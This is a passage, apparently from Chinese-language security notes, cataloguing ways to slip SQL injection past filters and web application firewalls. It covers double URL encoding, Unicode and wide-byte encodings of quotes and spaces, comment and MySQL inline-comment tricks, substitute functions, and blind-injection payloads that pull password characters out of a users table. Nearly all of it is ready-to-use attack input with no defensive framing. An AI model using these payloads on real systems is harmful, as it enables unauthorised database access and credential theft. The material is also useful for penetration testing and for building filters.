 ###### URL编码

这个比前面两个实在是好太多了，使用URL全编码编码两次，因为服务器自动对url进行一次编码

###### 十六进制编码

，，，就是编码成十六进制让其正则匹配无法匹配一样的。

###### Unicode编码

Unicode 有所谓的标准编码和非标准编码，假设我们用的 utf-8 为标准编码，那么西欧语系所使用的就是非标准编码了 看一下常用的几个符号的一些 Unicode 编码： 

```
单引号:?? %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0 左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8 右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9 
```

举例：?id=1%D6‘%20AND%201=2%23 SELECT '?'='A'; #1 两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C 构成了一个款字节即 Unicode 字节，单引号可以正常使用第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True 或者False，关键在于 Unicode 编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过另外平时听得多一点的可能是 utf-7 的绕过，还有 utf-16、utf-32 的绕过

##### 注释绕过

常见用于注释的符号

```
：//, -- , /**/, #, --+,-- ?-, ;，-- a
```

###### 内联注释

相比普通注释，内联注释用的更多，`/!**/`只有mysql能够识别

类似于注释非注释。

`/!*union*//**//!*select*/`等同于`union select`

##### 等价函数

有些函数能够被检测出来而无法使用。可以使用一些等价的函数。

```sql
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()
举例：substring()和 substr()无法使用时:?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
或者：substr((select 'password'),1,1) = 0x70
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
and ==>&&
or ==>||
= ==> < >
空格 ==> %20,%09,%0a,%0b,%0c,%0d,%a0,/**/
```
